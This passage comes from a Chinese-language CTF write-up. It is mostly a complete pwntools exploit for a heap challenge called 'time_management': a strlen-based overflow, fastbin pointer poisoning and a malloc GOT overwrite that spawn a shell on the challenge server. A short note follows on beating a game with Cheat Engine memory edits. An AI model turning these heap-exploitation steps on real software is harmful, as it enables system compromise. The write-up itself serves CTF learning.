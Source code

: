 具体exp如下：
```python
#coding:utf8
from pwn import *

context.log_level = 'debug'
#context.terminal = ['tmux', 'splitw', '-h']
sh = remote('pwn.challenge.mini.lctf.online', 10072)
#sh=process('./time_management')
#addr="0x40099B"
#gdb.attach(sh, "b *" + addr) ##tmux
#pause()
def create(size,content):
 sh.sendlineafter('ce : ','1')
 sh.sendlineafter('?\n',str(size))
 sh.sendafter('plan: ',content)
def delete(index):
 sh.sendlineafter('ce : ','3')
 sh.sendlineafter('Index : ',str(index))
def edit(index,size,content):
 sh.sendlineafter('choice : ','2')
 sh.sendlineafter('Index : ',str(index))
 sh.sendlineafter('?\n',str(size))
 sh.sendafter('plan: ',content)

target_addr = 0x6020b0+5-8
ptr_0 = 0x6020c0
bin_sh = 0x400C9F
malloc_got = 0x602058


create(40,'a'*40)#chunk0
create(16,'b\n')#chunk1
create(96,'b\n')#chunk2
payload = 'a'*40+'\x91'
edit(0,41,payload) ##利用strlen的特性,写入长度大于malloc(size)的长度,改写chunk1的size为0x90
delete(1)
delete(2)
payload = 16*'a'+p64(0)+p64(0x71)+p64(target_addr)+'\n'
create(128,payload) #重新申请chunk1,并借助chunk1将fastbin中的chunk2的fd指针指向目标地址
create(96,'b\n')#申请fastbin中的chunk2
offset = ptr_0 - target_addr-0x10
create(96,'a'*offset+p64(malloc_got)+'\n')#申请fastbin中的构造好的目标地址的块,通过改写块的内容，将ptr[0]指向mallocgot
edit(0,8,p64(bin_sh))#通过ptr[0]改写mallocgot表,使其调用malloc时会去执行system('/bin/sh')
sh.sendlineafter(": ",'1')##不知道为什么会先出现一次invalid,
sh.sendlineafter(": ",'1')##再次选择选项1，进入第一个功能分支
sh.sendlineafter("?\n",'1')#调用malloc
sh.interactive()
```
## 0x2 MISC
### 0x21 MiniGameHacking
看到hint中有个(cheat),考虑到使用cheat engine修改内存。然后，我发现的可以有效修改的就是时停的次数。于是就改了时停的次数硬打了16关还是17关来着。通关后就给了flag。不知道是不是预期内的(´Д`) 。
